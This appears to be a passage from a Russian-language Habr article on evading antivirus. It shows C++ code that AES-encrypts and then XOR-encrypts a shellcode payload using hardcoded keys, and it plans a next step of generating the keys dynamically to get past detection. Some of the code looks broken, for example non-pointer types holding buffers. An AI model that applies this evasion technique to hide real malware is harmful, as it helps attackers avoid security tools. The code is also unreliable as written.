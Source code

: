 ``` c++
  unsigned char aeskey[] = { 0x23, 0x45, 0x67, 0x89,0xAB, 0xCD, 0xEF, 0x10,0x32, 0x54, 0x76, 0x98,0xBA, 0xDC, 0xFE, 0x00 };
  unsigned char xorkey[] = { 0x3A, 0xC7, 0x9F, 0x2D, 0x54 };
  unsigned char aesshellcode = aes.EncryptECB(shellcode, shellcodesize, aeskey);
  std::cout << "AES ENCRYPT: ";
  aes.printHexArray(aesshellcode, shellcodesize);
  size_t keysize = sizeof(xorkey);
  std::cout << "\n\n";
  encryptdecrypt(aesshellcode, shellcodesize, xorkey, keysize);
  std::cout << "AES + XOR ENCRYPT: ";
  for (int i = 0; i < shellcodesize; i++) {
    std::cout <<  std::hex << std::setfill('0') << std::setw(2) << static_cast<int>(aesshellcode[i]);
    if (i < shellcodesize - 1) {
      std::cout << ", ";
        }
  }
    std::cout << "\n\n";
    std::cout << "XOR DECRYPT: ";
encryptdecrypt(aesshellcode, shellcodesize, xorkey, keysize);
for (int i = 0; i < shellcodesize; i++) {
  std::cout <<  std::hex << std::setfill('0') << std::setw(2) << static_cast<int>(aesshellcode[i]);
  if (i < shellcodesize - 1) {
    std::cout << ", ";
  }
}
unsigned char decaesshelcode = aes.DecryptECB(aesshellcode, shellcodesize, aeskey);
std::cout << "\n\n";
std::cout << "XOR + AES DECRYPT: ";
aes.printHexArray(decaesshelcode, shellcodesize);}
```

Результат работы скрипта:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/35c/629/d45/35c629d45aa6075a71b9d020ec3ce1bb.png)

Смысл скрипта такой:

`Plain -> AES -> XOR -> deXOR -> deAES -> Plain`

По сути, мне необходимы следующие вещи из этого кода: ключи и AES+XOR массив байт. Строки дальше существуют чисто для проверки корректности работы шифрования/расшифрования.

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/b71/5bd/f13/b715bdf13ddd50e1cad53c28c42bbfcc.png)

Проверка такого способа вновь завершилась неудачей. Я подумал, что наверняка есть какой-то способ проверить в чем именно проблема. Оказалось, что даже если я зашифрую нагрузку хоть 100 раз и 100 раз в коде будут лежать ключи в открытом виде, АВ средство с легкостью обнаружит ВПО, что достаточно круто и похвально.

#### Финальный этап

Я понял, что нужно избавиться от статики в пользу динамики, тем самым обезличив ключи и сделав их генерацию псевдослучайной.
